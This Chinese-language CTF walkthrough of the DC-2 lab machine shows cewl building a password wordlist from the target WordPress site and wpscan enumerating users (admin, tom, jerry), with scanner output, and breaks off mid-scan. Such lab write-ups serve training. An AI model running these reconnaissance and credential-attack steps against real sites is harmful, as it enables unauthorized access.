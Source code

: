 发现开放 80 端口，则可以进行网页访问。  
访问网页，是一个 wordpress 模板的博客网站，页面可以直接获得 flag1  
提示使用 cewl 密码字典生成工具，并且在登录后可以找到下一个 flag

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWNJUk7b6deYToSVKRcmciaf6IubMfErRiaV34t0tlnu8hqosicSq7PTreYPRibzlAkbJBPpibibVmSJtGg/640?wx_fmt=png)

**获取 flag2**

根据 flag1 的提示，使用 cewl 生成密码保存在当前目录的 pwd.txt 中:

```
root@kalilinux:/# cewl http://dc-2/ -w pwd.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWNJUk7b6deYToSVKRcmciafpYRIDPwTXMlPDUBtlYFdr78L4ydweMg9cafn7UvFo4xFxj2PeFV4Qg/640?wx_fmt=png)

密码有了, 于是还得获取用户名。  
之前已经知道服务器上搭建的是一个 wordpress 网站，所以可以想到 wpscan 扫描来枚举网站中的可用用户。  
获取用户名 (wpscan)  
使用 wpscan 枚举该网站的可用用户:

```
root@kalilinux:/# wpscan --url dc-2 -e u
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWNJUk7b6deYToSVKRcmciafjmNj01WWbicYI09CuNRXC2z2MnPb0CtXvLWerQw4rn0qmOBogiaTrqSQ/640?wx_fmt=png)

查看一下扫描的结果，扫描后可以找到三个用户名：admin、tom、jerry

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JWNJUk7b6deYToSVKRcmciaf3UBQYdEsByqcF05mSOpYFHZDV6JiawWKTYJmKVDrks9fQickpjqiciciaUA/640?wx_fmt=png)

```
root@kalilinux:/# wpscan --url dc-2 -e u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.7.5
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[+] URL: http://dc-2/
[+] Started: Thu Nov 12 18:16:07 2020

Interesting Finding(s):

[+] http://dc-2/
 | Interesting Entry: Server: Apache/2.4.10 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] http://dc-2/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

```